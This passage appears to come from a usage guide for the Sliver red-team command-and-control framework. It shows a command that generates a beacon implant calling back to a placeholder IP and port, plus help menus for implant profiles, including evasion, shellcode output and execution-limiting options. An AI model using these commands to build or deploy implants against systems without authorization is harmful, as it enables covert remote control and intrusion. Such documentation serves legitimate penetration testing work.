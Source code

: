 `sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64]> -o solaris -f exe -s /path/to/directory`

### 4.1.3 - Profiles

#### 4.1.3.1 - Help Menu

```
sliver > profiles -h

List existing profiles

Usage:
======
  profiles [flags]

Flags:
======
  -h, --help           display help
  -t, --timeout int    command timeout in seconds (default: 60)

Sub Commands:
=============
  generate  Generate implant from a profile
  new       Create a new implant profile (interactive session)
  rm        Remove a profile

sliver > profiles new beacon -h

Create a new implant profile (beacon)

Usage:
======
  beacon [flags] [name]

Args:
=====
  name  string    name of the profile

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -D, --days               int       beacon interval days (default: 0)
  -d, --debug                        enable debug features
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -H, --hours              int       beacon interval hours (default: 0)
  -b, --http               string    http(s) connection strings
  -J, --jitter             int       beacon interval jitter in seconds (default: 30)
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -M, --minutes            int       beacon interval minutes (default: 0)
  -m, --mtls               string    mtls connection strings
```